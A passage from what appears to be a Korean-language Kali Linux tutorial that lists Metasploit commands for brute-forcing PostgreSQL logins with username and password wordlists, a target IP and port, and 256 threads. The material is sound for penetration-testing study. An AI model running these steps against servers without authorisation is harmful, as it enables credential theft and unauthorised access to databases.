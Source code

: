 			- `run` - 실행 <br> <img src="/assets/img/칼리설치17.png" style="float: left; margin: 0 10px 10px 0; width: 400px;">
		- 코드 - PostgreSQL
			- `msfconsole` → `use auxiliary/scanner/postgres/postgres_login`
			- `set rhosts [ip address]` - 공격 대상 IP 주소
			- `set rport [port]` - 공격 대상 포트 지정
			- `set user_file [directory path]` - 조합할 계정 목록 파일이 있는 경로
			- `set pass_file [directory path]` - 조합할 비밀번호 목록 파일이 있는 경로
			- `set stop_on_success true` - 성공하면 종료
			- `set threads 256` - 공격 속도 지정
			- `run` - 실행<br><img src="/assets/img/칼리설치18.png" style="float: left; margin: 0 10px 10px 0; width: 400px;"><br><img src="/assets/img/칼리설치19.png" style="float: left; margin: 0 10px 10px 0; width: 400px;">
